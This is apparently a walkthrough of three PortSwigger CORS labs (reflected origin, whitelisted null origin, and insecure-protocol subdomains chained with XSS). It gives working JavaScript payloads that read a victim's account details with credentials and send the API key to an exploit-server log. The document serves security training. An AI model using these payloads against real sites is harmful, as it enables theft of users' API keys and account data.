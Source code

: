 <!-- omit in toc -->
# CORS

<!-- omit in toc -->
## Table of Contents

- [CORS vulnerability with basic origin reflection](#cors-vulnerability-with-basic-origin-reflection)
- [CORS vulnerability with trusted null origin](#cors-vulnerability-with-trusted-null-origin)
- [CORS vulnerability with trusted insecure protocols](#cors-vulnerability-with-trusted-insecure-protocols)

## CORS vulnerability with basic origin reflection
Reference: https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack

<!-- omit in toc -->
### Quick Solution
An exploit can be crafted and delivered to the victim to get the ``apikey``. The solution uses the old ``XMLHttpRequest``. I used the ``fetch`` with the ``credentials: include`` header. Here is the full exploit:
```javascript
<script>
const exploit = async () => {
    const labBaseUrl = <base_lab_url>;
    const details = '/accountDetails';
    const response = await fetch(`${labBaseUrl}${details}`, {credentials: 'include'});
    const data = await response.json();
    fetch(`/hacked?apikey=${data.apikey}`)
}

exploit()
</script>
```

<!-- omit in toc -->
### Solution
1. With your browser proxying through Burp Suite, check intercept is off then log in and access your account page.
2. Review the history and observe that your key is retrieved via an AJAX request to ``/accountDetails``, and the response contains the ``Access-Control-Allow-Credentials`` header suggesting that it may support CORS.
3. Send the request to Burp Repeater, and resubmit it with the added header: ``Origin: https://example.com``
4. Observe that the origin is reflected in the ``Access-Control-Allow-Origin`` header.
5. In your browser, go to the exploit server and enter the following HTML, replacing ``$url`` with your unique lab URL:
```javascript
<script>
   var req = new XMLHttpRequest();
   req.onload = reqListener;
   req.open('get','$url/accountDetails',true);
   req.withCredentials = true;
   req.send();

   function reqListener() {
       location='/log?key='+this.responseText;
   };
</script>
```
6. Click "View exploit". Observe that the exploit works - you have landed on the log page and your API key is in the URL.
7. Go back to the exploit server and click "Deliver exploit to victim".
8. Click "Access log", retrieve and submit the victim's API key to complete the lab.

## CORS vulnerability with trusted null origin
Reference: https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack

<!-- omit in toc -->
### Quick Solution
In this case the ``null`` Origin value is **whitelisted**. Browsers might send the value ``null`` in the Origin header in various unusual situations, **Sandboxed cross-origin requests** is one of them. So we can reuse the previous exploit and wrap it inside a sandboxed iframe:
```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="
    <script>
        const exploit = async () => {
            const labBaseUrl = <base_lab_url>;
            const details = '/accountDetails';
            const response = await fetch(`${labBaseUrl}${details}`, {credentials: 'include'});
            const data = await response.json();
            fetch(`/hacked?apikey=${data.apikey}`)
        }

        exploit()
    </script>
"></iframe>
```

<!-- omit in toc -->
### Solution
1. With your browser proxying through Burp Suite, check intercept is off, log in to your account, and click "My account".
2. Review the history and observe that your key is retrieved via an AJAX request to ``/accountDetails``, and the response contains the ``Access-Control-Allow-Credentials`` header suggesting that it may support CORS.
3. Send the request to Burp Repeater, and resubmit it with the added header ``Origin: null.``
4. Observe that the "null" origin is reflected in the ``Access-Control-Allow-Origin`` header.
5. In your browser, go to the exploit server and enter the following HTML, replacing $url with the URL for your unique lab URL and ``$exploit-server-url`` with the exploit server URL
```javascript
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','$url/accountDetails',true);
  req.withCredentials = true;
  req.send();
  function reqListener() {
    location='$exploit-server-url/log?key='+encodeURIComponent(this.responseText);
  };
</script>"></iframe>
```
Notice the use of an iframe sandbox as this generates a null origin request.
6. Click "View exploit". Observe that the exploit works - you have landed on the log page and your API key is in the URL.
7. Go back to the exploit server and click "Deliver exploit to victim".
8. Click "Access log", retrieve and submit the victim's API key to complete the lab.

## CORS vulnerability with trusted insecure protocols
Reference: https://portswigger.net/web-security/cors/lab-breaking-https-attack

<!-- omit in toc -->
### Quick Solution
This website has an insecure CORS configuration in that it trusts all subdomains regardless of the protocol. There is also a vulnerable subdomain endpoint used to check the stock that is vulnerable to XSS. This endpoint can be leveraged to exfiltrate date frmo the main domain. In the exploit server we just have to redirect the user to the vulnerable subdomain and perform XSS on it, see next paragraph for Solution.

<!-- omit in toc -->
### Solution
1. With your browser proxying through Burp Suite, check intercept is off then log in and access your account page.
2. Review the history and observe that your key is retrieved via an AJAX request to ``/accountDetails``, and the response contains the ``Access-Control-Allow-Credentials`` header suggesting that it may support CORS.
3. Send the request to Burp Repeater, and resubmit it with the added header ``Origin: http://subdomain.lab-id`` where ``lab-id`` is the lab domain name.
4. Observe that the origin is reflected in the ``Access-Control-Allow-Origin`` header, confirming that the CORS configuration allows access from arbitrary subdomains, both HTTPS and HTTP.
5. Open a product page, click "Check stock" and observe that it is loaded using a HTTP URL on a subdomain.
6. Observe that the ``productID`` parameter is vulnerable to XSS.
7. In your browser, go to the exploit server and enter the following HTML, replacing ``$your-lab-url`` with your unique lab URL and ``$exploit-server-url`` with your exploit server URL:
```
<script>
   document.location="http://stock.$your-lab-url/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://$your-lab-url/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://$exploit-server-url/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```



